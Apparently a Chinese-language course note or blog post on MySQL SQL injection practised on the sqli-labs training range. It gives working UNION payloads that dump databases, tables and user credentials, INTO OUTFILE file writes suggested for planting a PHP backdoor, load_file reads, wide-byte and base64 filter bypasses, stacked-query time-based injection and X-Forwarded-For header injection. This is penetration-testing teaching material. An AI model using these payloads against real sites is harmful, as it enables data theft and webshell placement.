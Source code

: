 # 04-mysql注入




  

> 靶场下载地址：https://github.com/Audi-1/sqli-labs
  
### mysql数据库分层

    1.库名，表名，列名，数据库用户等
    2.数据库与WEB应用相结合的架构关系

```sql
Mysql数据库
        数据库A zblog  =  www.zblog.com
                表名
                        列名
                                数据
        数据库B dede   =  www.dede.com
                表名
                        列名
                                数据

PS：
数据库A及B都属于Mysql数据库里面的
数据库用户：管理数据库的用户
级别：管理员用户root 普通用户随机
自带数据库：mysql数据库自带的




```

#### mysql注入权限问题

- 普通用户   **（只能靠猜数据进行安全测试）**
- root用户 

**查询参数：**

```
user()
database()
version()    // 查询数据库版本
@@version_compile_os     // 操作系统版本

```

#### 跨库注入

>场景:   要渗透B， B没有漏洞，但是A有注入漏洞 

```sql
-- 
1.获取所有的数据库name    
-- select group_concat(schema_name) from information_schema.schemata;
http://192.168.0.106/Less-2/?id=-1 union select 1,2,(select group_concat(schema_name) from information_schema.schemata)

2. 再选取某个数据库下面的表  
http://192.168.0.106/Less-2/?id=-1 union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema='security')

3. 根据表查列
http://192.168.0.106/Less-2/?id=-1 union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='users' and table_schema='security')

4. 查数据
http://192.168.0.106/Less-2/?id=-1 union select 1,2,(select group_concat(username,password) from security.users)
-- 或者
http://192.168.0.106/Less-2/?id=-1 union select 1,2,(select concat_ws(0x7e,username,password) from security.users  limit 3,1)
-- 或者
http://192.168.0.106/Less-2/?id=-1 union select 1,2,(select group_concat(concat_ws(0x7e,username,password)) from security.users)


```


sqlLabs 1 -7 练习

---



## MYSQL高权限注入

    mysql跨库注入-已讲
    mysql文件操作注入-sqlilabs less7



```sql
-- null
http://192.168.0.106/Less-7/?id=1')) union select null,null,null --+

--win的路径的话，加2个斜杠防止转义
-- 写入（aaa可以换成后门代码,txt可以换php）   （高版本，失败：需要数据库开启secure_file_priv，如果可以执行命令，可以绕过：下来自己查）
http://192.168.0.106/Less-7/?id=1')) union select  'aaa',null,null into outfile '/var/www/html/Less-7/test.txt' --+

-- 自己查资料？？？？？？？？？？


-- 读取文件
http://192.168.0.106/Less-7/?id=1')) union select   null,null,load_file('/var/www/html/Less-7/test.txt') --+


-- 路径问题：需要提前得到网站完整路径
-- 路径获取方法：
1.报错显示          inurl:php  warning
2.遗留文件        phpinfo()的 server_root。 script_filename
3.漏洞爆路径       discuzz爆路径
4.其他
    读取(配合load_file)网站解析配置文件
    字典盲猜测fuz： 


```



## MYSQL过滤型注入

mysql**宽字节**绕过注入-sqlilabs less32

> 宽字节注入条件：数据库编码为GBK等非中文

> 原理：%5c是反斜杠/ ,  而 %df%5c 是一个繁体字（我不会读），所以单引号成功逃逸

```sql
$id=check_addslashes($_GET['id']); # 在你输入单引号的时候，自动加\转义

魔术引号： magic_quote_gpc       (php.ini配置文件中), 打开之后，会转义单引号双引号  ------ 和上面的过滤函数有区别

【方法】：
%df"
%df'

http://192.168.0.106/Less-32/?id=-1%df%27 union select 1,2,3 -- + 


其他方法，自己查阅：？？？？？？？？？？

列举几个常用的URL转码的字符

空格           %20

单引号       %27

#                %23

\                 %5C


```

在PHP中，通过`iconv()`进行编码转换时，也可能存在宽字节注入漏洞  





## MYSQL其他注入

#### 加密编码注入       -sqlilabs less21  (post注入)

先加密，再填写
inurl:MQ=

```sql
了解主流加密/编码规律

```

#### base64注入攻击

程序代码中使用`base64_decode($_GET('id'))` 对参数进行解码

```
对 id' 进行base64编码后为  MSc=  ，而%3d是=的url编码， 拼接为 `MCs=%3d` 后尝试；
1 and 1=1 的base64编码为  ，1 and 1=2 的base64编码为 ， 分别放到id=的后门尝试， 结果如果不同，则存在漏洞
继续使用order by 继续

````

**其他利用场景：**
过waf， 绕过检测



#### 堆叠查询注入

堆叠查询可以执行多条sql语句，多语句之间使用**分号**隔开，**在第二个sql语句中构造自己要执行的语句**

例如：

```sql
';select if(substr(user(),1,1)='r', sleep(5),1) -- + 
-- 一般只会返回第一条sql的执行结果
http://192.168.0.121:8080/Less-9/?id=1%27; select if(left(user(),4)='root',sleep(5), 0); -- + 
-- 所以，在第二条语句中，可以私用update更新数据或者时间盲注获取数据

```


#### XFF注入

x-Forwarded-For， 代表客户端真实的ip， 修改后可以伪造客户端ip
将xff头改为:`127.0.0.1`访问，如果返回正常，分别设置为`127.0.0.1' and 1=1#` 和`127.0.0.1' and 1=2#`再次访问  ，根据返回结构判断有没有漏洞  
继续使用order by， 而后使用union `127.0.0.1' union select 1,2,3#`

php中的`getenv()`函数用于获取一个环境变量的值 ，如果不存在返回false



---

下次课继续...

---

> 作者: [剑胆琴心](http://geoer.cn)  
> URL: https://geoer.cn/04-mysql%E6%B3%A8%E5%85%A5/  


